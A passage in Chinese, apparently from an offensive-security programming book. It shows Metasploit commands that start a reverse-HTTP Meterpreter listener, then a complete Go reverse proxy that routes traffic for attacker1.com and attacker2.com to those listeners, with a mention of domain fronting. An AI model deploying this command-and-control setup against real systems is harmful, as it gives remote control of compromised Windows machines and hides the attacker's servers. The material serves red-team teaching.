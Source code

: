 当启动监听器时，提供代理数据作为 `LHOST` 和 `LPORT` 的值。然而，设置高级选项 `ReverseListenerBindAddress` 和 `ReverseListenerBindPort` 为监听器启动的真实的IP和端口，这为提供了一些端口使用的灵活性，同时允许明确地标识出代理主机——可以是主机名，例如，设置为域前置。

在第二个Metasploit实例中，执行类似的操作，在端口20080上启动一个额外的监听器。真正唯一不一样的地方是绑定了不同的端口：

```text
$ msfconsole
> use exploit/multi/handler
> set payload windows/meterpreter_reverse_http > set LHOST 10.0.1.20
> set LPORT 80
> set ReverseListenerBindAddress 10.0.1.20
> set ReverseListenerBindPort 20080
> exploit -j -z
[*] Exploit running as background job 1.

[*] Started HTTP reverse handler on http://10.0.1.20:20080
```

现在来创建反向代理。代码4-10是完整的代码。

```go
package main

import (
    "log"
    "net/http"
    "net/http/httputil"
    "net/url"

    "github.com/gorilla/mux"
)

var (
    hostProxy = make(map[string]string)
    proxies   = make(map[string]*httputil.ReverseProxy)
)

func init() {
    hostProxy["attacker1.com"] = "http://10.0.1.20:10080"
    hostProxy["attacker2.com"] = "http://10.0.1.20:20080"

    for k, v := range hostProxy {
        remote, err := url.Parse(v)
        if err != nil {
            log.Fatal("Unable to parse proxy target")
        }
        proxies[k] = httputil.NewSingleHostReverseProxy(remote)
    }
}

func main() {
    r := mux.NewRouter()
    for host, proxy := range proxies {
        r.Host(host).Handler(proxy)
    }
    log.Fatal(http.ListenAndServe(":80", r))
}
```
